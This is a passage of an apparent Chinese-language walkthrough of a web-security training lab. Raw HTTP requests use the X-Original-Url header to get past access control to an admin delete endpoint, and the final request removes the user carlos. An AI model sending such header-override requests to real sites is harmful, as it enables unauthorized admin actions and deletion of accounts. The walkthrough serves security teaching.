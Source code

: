 ```http
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a62003e03e972af80d7b7570094002e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 15

"Access denied"
```

尝试直接通过请求头传删除参数，提示需要 username 参数，这说明权限是够的，只是 X-Original-Url 不支持传递参数方式不对。

```http
GET / HTTP/2
Host: 0a62003e03e972af80d7b7570094002e.web-security-academy.net
X-Original-Url: /admin/delete?username=carlos
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a62003e03e972af80d7b7570094002e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
Set-Cookie: session=z1JjyLhN7NAWQuc8hVoAhCiQcgWwe8qd; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'username'"
```

最终通过 Path 传参，请求头传递路径成功删除用户 carlos 完成 Lab。

```http
GET /?username=carlos HTTP/2
Host: 0a62003e03e972af80d7b7570094002e.web-security-academy.net
X-Original-Url: /admin/delete
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```